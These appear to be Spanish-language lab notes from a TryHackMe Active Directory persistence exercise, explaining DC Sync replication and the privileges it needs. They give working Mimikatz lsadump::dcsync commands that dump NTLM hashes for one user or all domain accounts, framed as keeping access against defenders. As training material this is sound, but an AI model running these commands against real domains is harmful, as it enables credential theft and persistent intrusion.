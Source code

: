 # Persistencia en Active Directory

Durante un ataque a AD, necesitaremos estar seguros de tener persistencia. En caso de que el blue team nos eche o cambie las credenciales.

Conexión a una red de Dominio desde Ubuntu

```
systemd-resolve --interface persistad --set-dns $THMDCIP --set-domain za.tryhackme.loc
```

# Persistencia con credenciales

## DC Sync

Como entendemos tener un simple DC por dominio es ilogico. Estos dominios usan multiples localizaciones, con o cual eso significa que necesitan autentificarse a AD desde diferentes servicios.

Osea que la replicación de dominio. o el controlador KCC. Genera una topología replicada como si fuera un bosque de AD y automaticamente se conecta a los controladores por RPC. 

Un ataque popular es el DC Sync attac. Teniendo acceso a una cuenta podemos replicar los permisos, con los controladres de dominio

## No todas las credenciales se pueden crear igual

Antes de empezar con dicho ataque, tenemos que ver su potencial. Mientras siempre sepas las credenciales de un privilegio esta guay, pero si no tenemos dichas credenciales o privilegios. deberemos saber esto:

- Credenciales de administrador
- Servicios de cuentas con permisos delegaods
- Cuentas de usuarios con privilegios en servicios de AD

## DCSync ALL

Utilizaremos Mimikatz para encontrar credenciales y conectarnos via ssh

![image](https://github.com/user-attachments/assets/0b59539a-f621-470f-b8eb-3bc1e284dd8f)

```
lsadump::dcsync /domain:za.tryhackme.loc /user:<Your low-privilege AD Username>
```

Con esto sacamos los hashes NTLM de usuarios en cuestión del AD

```
log <username>_dcdump.txt
```
```
lsadump::dcsync /domain:za.tryhackme.loc /all
```


